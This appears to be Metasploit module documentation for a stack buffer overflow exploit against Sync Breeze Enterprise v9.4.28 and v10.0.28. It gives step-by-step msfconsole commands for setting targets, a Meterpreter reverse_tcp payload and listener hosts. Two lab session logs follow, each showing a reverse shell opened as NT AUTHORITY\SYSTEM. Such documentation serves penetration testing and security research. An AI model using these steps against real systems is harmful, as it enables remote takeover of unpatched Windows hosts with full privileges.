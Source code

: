 ## Vulnerable Application

[Sync Breeze Enterprise](http://www.syncbreeze.com) versions up to v9.4.28 and v10.0.28 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerabilities are caused by improper bounds checking of the request path in HTTP GET requests and username value via HTTP POST requests sent to the built-in web server, respectively. This module has been tested successfully on Windows 7 SP1. The vulnerable applications are available for download at [Sync Breeze Enterprise v9.4.28](http://www.syncbreeze.com/setups/syncbreezeent_setup_v9.4.28.exe) and [Sync Breeze Enterprise v10.0.28](http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.0.28.exe).

## Verification Steps
  1. Install a vulnerable Sync Breeze Enterprise
  2. Start `Sync Breeze Enterprise` service
  3. Start `Sync Breeze Enterprise` client application
  4. Navigate to `Tools` > `Sync Breeze Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/syncbreeze_bof`
  8. Select appropriate target via `set target 0` or `set target 1`
  9. Do `set RHOST ip`
  10. Do `check`
  11. Verify the target is vulnerable
  12. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  13. Do `set LHOST ip`
  14. Do `exploit`
  15. Verify the Meterpreter session is opened

## Scenarios

###Sync Breeze Enterprise v9.4.28 on Windows 7 SP1

```

msf exploit(syncbreeze_bof) > show options 

Module options (exploit/windows/http/syncbreeze_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.2.10     yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.187    yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Sync Breeze Enterprise v9.4.28


msf exploit(syncbreeze_bof) > exploit 

[*] Started reverse TCP handler on 192.168.2.187:4444 
[*] Sending request...
[*] Sending stage (957427 bytes) to 172.16.0.18
[*] Meterpreter session 1 opened (172.16.0.20:4444 -> 172.16.0.18:49162) at 2017-05-16 11:00:25 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : PC-01
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : pt_PT
Domain          : LAB
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter >
```

###Sync Breeze Enterprise v10.0.28 on Windows 7 SP1

```
msf > use exploit/windows/http/syncbreeze_bof 
msf exploit(syncbreeze_bof) > set rhost 192.168.10.61
rhost => 192.168.10.61
msf exploit(syncbreeze_bof) > set target 1
target => 1
msf exploit(syncbreeze_bof) > exploit

[*] Started reverse TCP handler on 192.168.10.60:4444 
[*] Sending request...
[*] Sending stage (171583 bytes) to 192.168.10.61
[*] Meterpreter session 1 opened (192.168.10.60:4444 -> 192.168.10.61:4129) at 2017-10-09 13:22:15 -0400
[+] negotiating tlv encryption
[+] negotiated tlv encryption
[+] negotiated tlv encryption

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MUSHROOMKINGDOM
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```